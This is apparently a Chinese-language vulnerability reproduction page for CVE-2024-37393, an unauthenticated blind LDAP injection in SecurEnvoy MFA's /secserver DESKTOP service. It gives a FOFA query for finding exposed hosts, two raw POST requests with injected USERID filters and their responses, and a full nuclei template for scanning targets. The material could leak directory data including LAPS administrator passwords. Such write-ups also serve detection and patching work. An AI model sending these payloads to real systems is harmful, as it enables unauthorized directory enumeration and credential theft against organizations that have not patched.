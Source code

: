 **漏洞名称**

SecurEnvoy身份验证-LDAP注入漏洞

**漏洞影响**

multi-factor_authentication_solutions 9.4.514之前版本

**漏洞描述**

SecurEnvoy MFA是一种广泛使用的软件解决方案，为第三方服务或设备(例如，思杰、FortiGate.)提供双因素身份验证(2 FA)支持。

SecurEnvoy充当RADIUS服务器，并依赖LDAP服务(例如微软Active Directory，OpenLDAP)来验证其用户。它使用目录的内部密码处理来检查第一因素(依赖于LDAP绑定方法)，并扩展目录使用以允许在授予用户访问权限之前检查第二因素("PIN代码")。

由于对用户提供的输入的验证不当，在9.4.514之前 SecurEnvoyMFA中存在多个LDAP注入漏洞。未经身份验证的远程攻击者可以通过对/secserver HTTP端点上暴露的 DESKTOP 服务进行盲目的LDAP注入攻击，从Active Directory中泄漏数据。包括ms-Mcs-AdmPwd，它为本地管理员密码解决方案(LAPS)功能提供了明文密码。

**FOFA搜索语句**

title="SecurEnvoy"

**漏洞复现**

当将第一行为FLAG=DESKTOP的POST数据发送到/secserverHTTP端点时，会触发实现“DESKTOP”协议的特定代码。



在这些参数中，USERID用于在发送特殊STATUS变量时执行用户身份验证。我们能够使用下面的协议消息来枚举绑定到SecurEnvoy(例如Active Directory)的目录中的现有用户。



此请求允许未经身份验证的用户检查SecurEnvoy目录中是否存在SomeUser。之所以能够做到这一点，是因为服务器响应会根据用户是否存在而有所不同，用户不存在时响应内容为

```yaml
VERSION:9.3.502 
RETURN:Error checking Group, ERR, DN is not set 
AUTH:DENIED
```

用户存在时响应内容为

```
VERSION:9.3.502
RETURN:OK
GETPASSCODE:False
```

POC数据包如下:

第一步：

```yaml
POST /secserver/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36 Edg/94.0.992.47
Connection: close
Content-Length: 98
Accept-Encoding: gzip

FLAG=DESKTOP
1
STATUS:INIT
USERID:bvsakzz7oistfjkq8drw)(sAMAccountName=*
MEMBEROF:Domain Users
```

响应内容如下

```yaml

HTTP/1.1 200 OK
Connection: close
Content-Length: 79
Content-Type: text/plain
Date: Fri, 14 Jun 2024 01:39:34 GMT
Strict-Transport-Security: max-age=16070400; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

VERSION:9.3.502
RETURN:Error checking Group, ERR, DN is not set
AUTH:DENIED
```

第二步：

```yaml
POST /secserver/ HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.93 Safari/537.36
Connection: close
Content-Length: 79
Accept-Encoding: gzip

FLAG=DESKTOP
1
STATUS:INIT
USERID:*)(sAMAccountName=*
MEMBEROF:Domain Users
```

响应内容：

```yaml
HTTP/1.1 200 OK
Connection: close
Content-Length: 49
Content-Type: text/plain
Date: Fri, 14 Jun 2024 01:39:35 GMT
Strict-Transport-Security: max-age=16070400; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block

VERSION:9.3.502
RETURN:OK
GETPASSCODE:False
```

**nuclei poc**

```yaml

id: CVE-2024-37393
info:
  name: SecurEnvoy Two Factor Authentication - LDAP Injection
  author: securityforeveryone
  severity: critical
  description: |
    Multiple LDAP injections vulnerabilities exist in SecurEnvoy MFA before 9.4.514 due to improper validation of user-supplied input. An unauthenticated remote attacker could exfiltrate data from Active Directory through blind LDAP injection attacks against the DESKTOP service exposed on the /secserver HTTP endpoint. This may include ms-Mcs-AdmPwd, which has a cleartext password for the Local Administrator Password Solution (LAPS) feature.
  reference:
    - https://www.tenable.com/cve/CVE-2024-37393
    - https://www.optistream.io/blogs/tech/securenvoy-cve-2024-37393
    - https://securenvoy.com
  metadata:
    verified: true
    shodan-query: title:"SecurEnvoy"
    fofa-query: title="SecurEnvoy"
  tags: cve,cve2024,securenvoy,ldap

variables:
  userid: "{{to_lower(rand_base(20))}}"

http:
  - raw:
      - |
        POST /secserver/? HTTP/2
        Host: {{Hostname}}

        FLAG=DESKTOP
        1
        STATUS:INIT
        USERID:{{userid}})(sAMAccountName=*
        MEMBEROF:Domain Users

      - |
        POST /secserver/? HTTP/2
        Host: {{Hostname}}

        FLAG=DESKTOP
        1
        STATUS:INIT
        USERID:*)(sAMAccountName=*
        MEMBEROF:Domain Users

    matchers:
      - type: dsl
        dsl:
          - "contains(body_1, 'Error checking Group')"
          - "status_code_1 == 200"
          - "contains(body_2, 'GETPASSCODE')"
          - "status_code_2 == 200"
        condition: and
# digest: 490a0046304402207956ded5a27d1c12f6487316e5b14bb02bb6977fa43bc048e1a21ac9010125480220063cb9fbb223d773537cc685ba85640b97d10412c97695ac541f5ecbac760bbd:922c64590222798bb761d5b6d8e72950
```


